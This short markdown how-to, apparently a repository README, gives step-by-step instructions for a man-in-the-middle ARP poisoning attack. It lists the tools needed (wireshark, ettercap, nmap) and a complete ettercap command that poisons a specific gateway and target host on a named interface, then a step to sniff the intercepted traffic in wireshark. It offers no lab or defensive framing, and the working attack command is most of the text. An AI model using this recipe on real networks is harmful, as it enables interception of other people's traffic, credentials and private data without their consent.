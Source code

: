 # How to perform a man-in-the-middle (ARP poisoning) attack

## requirements

- wireshark
- ettercap-text-only
- nmap

## steps

- sudo ettercap -T -S -i wlp0s20f3 -M arp:remote /192.168.31.1// /192.168.31.13
- open wireshark with sudo and perform packet sniffing on the interface
